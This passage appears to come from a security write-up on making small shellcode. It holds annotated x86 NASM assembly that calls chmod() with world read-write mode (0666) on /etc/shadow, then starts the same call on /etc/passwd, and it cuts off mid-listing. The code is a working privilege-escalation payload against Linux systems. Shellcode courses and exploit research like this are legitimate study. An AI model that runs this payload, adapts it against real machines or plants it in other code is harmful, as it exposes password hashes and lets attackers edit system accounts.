 ### Focus on size

Follows the smallest version I managed to write:

```nasm
; Author: Robert C. Raducioiu (rbct)

global _start

section .text

_start:

    ; clear ECX, EAX, EDX
    xor ecx, ecx
    mul ecx

    ; store "/etc" into ESI
    ;   this allows me to reuse this value for the second call to chmod
    mov esi, 0x6374652f

    ; add a NULL byte (in this case a NULL DWORD) at the end of the string
    ;   pushed to the stack
    push eax

    ; store the string "/etc//shadow" on the stack
    push dword 0x776f6461
    push dword 0x68732f2f
    push esi
```

<figcaption class="figure-caption">Remember that when you push a string to the stack, the bytes must be **reversed**, as **the stack grows downward**</figcaption>

```nasm
    ; 1st argument of chmod(): const char *pathname
    ; store into EBX the pointer to "/etc//shadow"
    mov ebx,esp

    ; set EAX to 0x0000000f -> chmod() syscall
    add al, 0xf

    ; 2nd argument of chmod(): mode_t mode
    ; in this case ECX is set to the binary value 110110110
    mov cx,0x1b6

    ; call chmod()
    int 0x80

    ; set EAX to 0 and push it to the stack;
    ; like before, it acts as the string terminator
    mov eax, edx
    push eax

    ; push "/etc//passwd" to the stack
    push dword 0x64777373

    ; also set EAX to 0x0000000f -> chmod() syscall
    add al, 0xf
    push dword 0x61702f2f

    ; reuse the value of "/etc" from before
    push esi
    
    ; 1st argument of chmod(): const char *pathname
```